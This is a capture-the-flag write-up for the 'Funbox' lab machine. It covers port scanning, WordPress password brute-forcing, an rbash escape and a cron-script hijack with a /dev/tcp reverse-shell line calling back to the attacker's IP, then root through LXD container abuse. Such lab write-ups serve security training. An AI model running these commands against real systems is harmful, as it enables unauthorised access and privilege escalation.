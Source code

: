 # Funbox

## Nmap

```
sudo nmap 192.168.73.77 -p- -sS -sV

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     ProFTPD
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
33060/tcp open  mysqlx?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

{% hint style="info" %}
Add funbox.fritz.box to /etc/hosts.
{% endhint %}

As FTP is open I initially tried anonymous login credentials which are shown to not work in this instance.

![](<../../../.gitbook/assets/image (1467).png>)

Moving over to port 80 we find that we land on a default page for a Wordpress instance.

![](<../../../.gitbook/assets/image (1468).png>)

After a quick look around we find nothing of interest and no further posts made or commented on. Running dirsearch against the target mahcine we find the directory /secret/ and also the file robots.txt.

Robots.txt only contains the following entry: `Disallow: /secret/`.

```
python3 dirsearch.py -u http://funbox.fritz.box/ -w /usr/share/seclists/Discovery/Web-Content/big.txt -r -R 2 --full-url -t 75 
```

![](<../../../.gitbook/assets/image (1469).png>)

After further directory searching against /secret/ we are unable to find any further information. Running curl against the directory only gives us the output below.

![](<../../../.gitbook/assets/image (1471).png>)

Running WPScan against the host we identify some users and also confirm password logins. Remembering to set the `--passwords` parameter to rockyou.txt

```
wpscan --url http://funbox.fritz.box/ -t 40 -e ap,u1-1000 --passwords /usr/share/wordlists/rockyou.txt --force
```

![](<../../../.gitbook/assets/image (1472).png>)

From here we have the following credentials:

| Username | Password |
| -------- | -------- |
| joe      | 12345    |
| admin    | iubire   |

From here I tried `SSH` as joe and was able to login with the given credentials.

![](<../../../.gitbook/assets/image (1473).png>)

After connecting I tried to `cd` into /opt/ and was given the restricted message by `rbash`.

![](<../../../.gitbook/assets/image (1474).png>)

To escape `rbash` (restricted shell) we can spawn a new shell with Python, export a new path and then spawn a python shell again to gain full command of our shell.

```
python -c 'import os; os.system("/bin/sh")'
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin
python -c 'import pty; pty.spawn("/bin/bash")'
```

After doing so you can see we now have full access to commands.

![](<../../../.gitbook/assets/image (1475).png>)

As always whenever you have Wordpress on a target machine ensure to check `/var/www/html/wp-config.php` for database credentials.

![](<../../../.gitbook/assets/image (1476).png>)

Here we have credentials of: `wordpress:wordpress`. Moving into MYSQL with the following command:

```
mysql -u wordpress -p
```

After entering the password I moved into the Wordpress database and viewing all information in the wp\_users table.

```
select * from wp_users;
```

![](<../../../.gitbook/assets/image (1477).png>)

From here I tried to SSH and `su` into funny who is a local user on the machine with the admin password we got from `WPScan` but had no luck here.

Checking out the home directory for the user 'funny' we see when viewing hidden files that a scripts exists called '.backup.sh'.

![](<../../../.gitbook/assets/image (1478).png>)

As we can see this is performing a backup. Looking at the permissions of the file it looks like we can erase the contents and replace it with our own shell.

First I downloaded [pspy64](https://github.com/DominicBreuker/pspy/releases/tag/v1.2.0) onto the target system to see if this is something being executed by the system on a regular basis. Ensuring that executable permissions are set with `chmod` before running.

![](<../../../.gitbook/assets/image (1479).png>)

From the results windows we see the bash is being executed on the .backup.sh script.

![](<../../../.gitbook/assets/image (1480).png>)

With this information lets replace .backup.sh contents with a bash reverse shell.

```
echo  > .backup.sh
echo '#!/bin/bash' > .backup.sh
echo 'sh -i >& /dev/tcp/192.168.49.196/80 0>&1' >> .backup.sh
```

![](<../../../.gitbook/assets/image (1481) (1).png>)

Then start a `netcat` listener on our attacking machine.

```
sudo nc -lvp 80
```

After a short while we get a shell as the user funny.

![](<../../../.gitbook/assets/image (1482).png>)

from the above command we see we are part of the 'lxd' group. LXD are Linux containers and when you are a member of this group you can abuse this to gain root privileges.

Run the following commands on the attacking machine:

```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
sudo ./build-alpine
```

{% hint style="warning" %}
You may run into issues regarding the alpine mirrors on this step. If so follow the link here to [https://github.com/saghul/lxd-alpine-builder/issues/1](https://github.com/saghul/lxd-alpine-builder/issues/1) the issues page for alphine. The comments section contains the solution to the error.
{% endhint %}

![](<../../../.gitbook/assets/image (1483).png>)

After the image has been built we need to transfer over to the target machine. Start a `Python SimpleHTTPServer` and transfer over the alpine image.

```
wget http://192.168.49.196/alpine-v3.13-x86_64-20210418_0849.tar.gz
```

![](<../../../.gitbook/assets/image (1484).png>)

The run the following command to import and create an alias for the alpine image.

```
lxc image import ./alpine-v3.13-x86_64-20210418_0849.tar.gz --alias myimage
```

For this next part if you get the error message 'The command could not be located because '/snap/bin' is not included in the PATH environment variable.' then run the command below to export a new path which includes /snap/bin.

```
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin:/snap/bin
```

Next we need to initialize LXD.

```
lxd init
```

When initializing you will be given the options below. Its important for this particular machine that when asked \_What IPv6 address should be used? (CIDR subnet notation, “auto” or “none”) \_to provide the option **none** otherwise creating a storage pool will fail.

```
Would you like to use LXD clustering? (yes/no) [default=no]: 
Do you want to configure a new storage pool? (yes/no) [default=yes]: 
Name of the new storage pool [default=default]: 
Name of the storage backend to use (btrfs, dir, lvm) [default=btrfs]: 
Create a new BTRFS pool? (yes/no) [default=yes]: 
Would you like to use an existing block device? (yes/no) [default=no]: 
Size in GB of the new loop device (1GB minimum) [default=15GB]: 
Would you like to connect to a MAAS server? (yes/no) [default=no]: 
Would you like to create a new local network bridge? (yes/no) [default=yes]: 
What should the new bridge be called? [default=lxdbr0]: 
What IPv4 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
What IPv6 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: none 
Would you like LXD to be available over the network? (yes/no) [default=no]: 
Would you like stale cached images to be updated automatically? (yes/no) [default=yes] 
Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]:
```

Once completed run the commands below to start the container and connect to it with /bin/sh.

```
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```

When we execute the last command we will be root inside the container. We then need to move into the directory shown below to move into the main root contents of the primary target.

```
cd /mnt/root/root  
```

![](<../../../.gitbook/assets/image (1485).png>)

We are now root.
